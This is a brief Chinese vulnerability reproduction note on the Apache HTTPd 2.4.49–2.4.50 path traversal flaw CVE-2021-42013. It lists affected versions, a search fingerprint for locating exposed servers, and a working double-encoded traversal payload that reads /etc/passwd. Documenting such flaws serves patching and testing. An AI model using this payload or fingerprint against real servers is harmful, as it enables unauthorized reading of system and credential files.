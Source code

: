 # Apache HTTPd 路径穿越漏洞 CVE-2021-42013

## 漏洞描述

Apache HTTPD是一款HTTP服务器，它可以通过mod_php来运行PHP网页。其2.4.49~2.4.50-本中存在一个漏洞，可读取服务器中的任意文件 （CVE-2021-41773 的漏洞绕过）

## 漏洞影响

```
Apache HTTPd 2.4.49~2.4.50版本
```

## 网络测绘

```
server="Apache/2.4.49"
```

## 漏洞复现

Chorme插件Wappalyzer获取 Apache版本

![image-20220525155347737](images/202205251553798.png)

验证POC

```
/cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/etc/passwd
```

![image-20220525155420331](images/202205251554399.png)